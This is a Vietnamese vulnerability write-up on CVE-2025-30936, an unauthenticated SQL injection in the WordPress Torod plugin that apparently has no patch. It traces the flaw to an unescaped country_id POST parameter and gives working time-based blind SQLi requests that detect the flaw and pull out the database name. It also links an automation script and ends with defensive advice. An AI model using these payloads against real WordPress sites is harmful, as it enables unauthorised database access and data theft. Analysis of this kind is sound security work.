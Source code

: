 ```yaml
---
title: CVE-2025-30936 
description: Security Vulnerability in WordPress Torod Plugin.
date: 2025-09-10 00:01:00 +0700
categories: [Vulnerabilities, CVE Analyst]
tags: [analyst, plugin, sqli]
---
```


## Introduction
Lỗ hổng xảy ra trên plugin **Torod** của WordPress. Điều này có thể cho phép kẻ tấn công trực tiếp tương tác với cơ sở dữ liệu của bạn, bao gồm không giới hạn ở việc đánh cắp thông tin.
- **CVE ID**: [CVE-2025-30936](https://www.cve.org/CVERecord?id=CVE-2025-30936)
- **Product**: [WordPress Torod Plugin](https://wordpress.org/plugins/torod/)
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: <= 1.9 
- **Fixed in**: <= N/A 
- **CVSS severity**:  High (9.3) 
- **Required Privilege**: Unauthenticated

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- **Torod**: v1.9

## Analysis
Nguyên nhân cố lõi do ứng dụng chèn trực tiếp dữ liệu từ **POST** request vào SQL query mà không có cơ chế quản kiểm soát chặt chẽ.

### Vulnerable Sink
CVE này không có bản vá nên không thể sử dụng **diff tool** để so sánh sự khác biệt giữa **code lỗi** và **code đã fix lỗi**.

> Trong WordPress, để SQLi xảy ra, ứng dụng phải tương tác với database thông qua biến global `$wpdb`, ta search từ khóa này trong thư mục của plugin để tìm sink. 
{: .prompt-tip }

![Search sink](assets/img/posts/2025-09-10-CVE-2025-30936/search_sink.png)

👉 Dữ liệu từ `$_POST['country_id']` được đưa thẳng vào truy vấn SQL mà không có cơ chế kiểm soát hợp lệ. Việc chỉ sử dụng `sanitize_text_field()` mới dừng lại ở mức **escape chuỗi**, chứ không đảm bảo tính an toàn. Do đó, lỗ hổng SQLi có thể xảy ra.

- Source: `$_POST['country_id']`
- Sink: `$wpdb->get_results("SELECT * FROM $table_name WHERE country_id = $country_id")`

### How it work?
Lỗ hổng nằm trong hàm `get_regions_and_cities` của class `ajaxyk` thuộc file **inc/ajaxyk.php**. Để xác định nơi nó được gọi, ta tìm kiếm với từ khóa `get_regions_and_cities` trong thư mục chứa plugin.

![Search 1](assets/img/posts/2025-09-10-CVE-2025-30936/search_1.png)

👉 `get_regions_and_cities` được construct của class `ajaxyk` gọi làm callback của 2 action hook thông qua hàm `add_action`

- `wp_ajax_get_regions_and_cities`
    - Được viết theo cú pháp `wp_ajax_{$action}`
    - Yêu cầu người dùng đăng nhập

- `wp_ajax_nopriv_get_regions_and_cities` 
    - Được viết theo cú pháp `wp_ajax_nopriv_{$action}`
    - Không yêu cầu người dùng đăng nhập

Vì đây là lỗ hổng **unauthenticated** nên ta chỉ quan tâm tới hook `wp_ajax_nopriv_get_regions_and_cities`.

Như vậy khi gửi **POST** request đến `/wp-admin/admin-ajax.php` với tham số

```
action=wp_ajax_nopriv_get_regions_and_cities&country_id=payload_here:
```

- Callback `get_regions_and_cities` được gọi.
- `country_id` được lấy trực tiếp từ request và chèn vào SQL query.
- Query thực thi với payload độc hại.

## Exploit
### Detect SQLi

Gửi **POST request** chứa payload SQLi.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities&country_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Khi đó câu query sẽ trở thành:

```sql
SELECT * FROM wp_torod_regions WHERE country_id = (SELECT 1 FROM (SELECT SLEEP(5))a)
```

![Responsed time](assets/img/posts/2025-09-10-CVE-2025-30936/time_resp.png)

👉 Dựa trên thời gian phản hồi => payload hoạt động.

**Các technique có thể sử dụng trong trường hợp table rỗng**:

- **UNION**: vì nó không phụ thuộc vào dữ liệu bảng của câu query trước đó, nhưng cần phải tìm được số cột tương ứng.
- **Subquery**:
    - **Subquery trong mệnh đề WHERE**: MySQL có thể tối ưu hóa và bỏ qua subquery nếu kết quả có thể xác định sớm. Nếu bảng không có dữ liệu, kết quả cuối cùng sẽ là tập rỗng, MySQL không cần thực thi `SLEEP()`.
    - **Subquery trong mệnh đề FROM**: Truy vấn con được coi là bảng tạm thời. MySQL phải thực thi truy vấn con này đầu tiên để tạo bảng tạm thời, sau đó mới thực thi truy vấn chính. 

![SQL Excution Order](https://www.kdnuggets.com/wp-content/uploads/ferrer_essential_guide_sql_execution_order_6.png)

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities=1&country_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Sử dụng `SUBSTRING()` để lấy ký tự đầu tiên của **database name**, `IF()` trả về `SLEEP(5)` nếu ký tự đó là `0x77`('w')

Sử dụng hex encoding `w` thành `0x77` vì `country_id` được lấy từ **POST** request trong nên bị escape bởi [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) trong WordPress và bởi `sanitize_text_field`.

👉 Dựa trên thời gian phản hồi => kí tự đầu tiên đúng là `w`.

Dựa trên kĩ thuật **Timebased SQLi** ta viết script để tự động khai thác.

[Script here](https://github.com/w41bu1/w41bu1.github.io/blob/main/assets/code/posts/2025-09-10-CVE-2025-30936/script.py)

## Conclusion
Lỗ hổng **CVE-2025-30936** trong plugin WordPress **Torod** từ phiên bản **1.9** trở lại, xuất phát từ việc truyền trực tiếp input từ người dùng vào SQL query mà không có biện pháp kiểm soát chặt chẽ dẫn đến lỗ hổng SQL Injection.

Chưa có bản vá chính thực nào cho lỗ hổng này.

**Key takeaways**:
- Kiểm soát kỹ input từ người dùng.
- Luôn sử dụng `$wpdb->prepare()` khi làm việc với database trong WordPress để tránh SQL Injection.
- Thường xuyên cập nhật plugin và kiểm tra bảo mật để tránh trở thành mục tiêu tấn công.

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Torod Plugin <= 1.9 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/torod/vulnerability/wordpress-torod-1-9-sql-injection-vulnerability?_s_id=cve)